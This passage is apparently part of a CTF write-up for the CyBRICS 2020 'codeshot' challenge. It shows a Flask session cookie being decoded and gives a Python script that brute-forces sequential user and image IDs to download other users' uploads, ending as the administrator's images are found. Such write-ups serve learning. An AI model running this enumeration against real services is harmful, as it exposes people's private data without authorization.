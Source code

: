 The service generates this image at `http://codeshot-cybrics2020.ctf.su:80/uploads/<user_id>/<image_id>` : 

![Example of blur](solve/example.png)

After some reuploads, we know that user and image id are incremental.
We can decode the JWT cookie :

```
python3 flask_session_cookie_manager3.py decode -c .eJwlzj0OwjAMQOG7eGaIf2I7vUyVxI5gbemEuDuVmN8bvg_s68jzCdv7uPIB-ytggxlN3FtdLXW4Ia1ZR1FaQ00EZRH7yhRFnirWtMUy7jiMMMR76W16n5MYhUv3u7r5HMaUOUpiBFf0VA4WjXBFo1pE-d6bBtyQ68zjr6kVvj-5xi51.XxyptA.ERtfI7PQVc8HeYMaWr7cSD7b3oQ
b'{"_fresh":true,"_id":"cd948895f9e6b8712fc5b062fb674414f238fee4[...]d3518e63d346dd861725046343096d","_user_id":"55"}
```

Let's start try if we can recover some public code images of other users.

A simple brute force script with Python3 and requests will be perfect (generated with ["Copy As Python-Requests"](https://portswigger.net/bappstore/b324647b6efa4b6a8f346389730df160) burp extension):

```python
import requests


cookies = {"session": ".eJwlzj0OwjAMQOG7eGaIf2I7vUyVxI5gbemEuDuVmN8bvg_s68jzCdv7uPIB-ytggxlN3FtdLXW4Ia1ZR1FaQ00EZRH7yhRFnirWtMUy7jiMMMR76W16n5MYhUv3u7r5HMaUOUpiBFf0VA4WjXBFo1pE-d6bBtyQ68zjr6kVvj-5xi51.XxyptA.ERtfI7PQVc8HeYMaWr7cSD7b3oQ"}
headers = {"User-Agent": "Mozilla/5.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8"}

i = 0

for i in range(1,500):
 for u in range(1,500):
  url = "http://codeshot-cybrics2020.ctf.su:80/uploads/%s/%s" % (u,i) 
  r=requests.get(url, headers=headers, cookies=cookies)

  if r.status_code == 200:
   print("[+] User, image :",u,",",i)
   with open("./img/%s_%s.png" % (u,i),'wb') as f:
    f.write(r.content)
   break
```

We found 4 images from the user_id 1, the administrator :
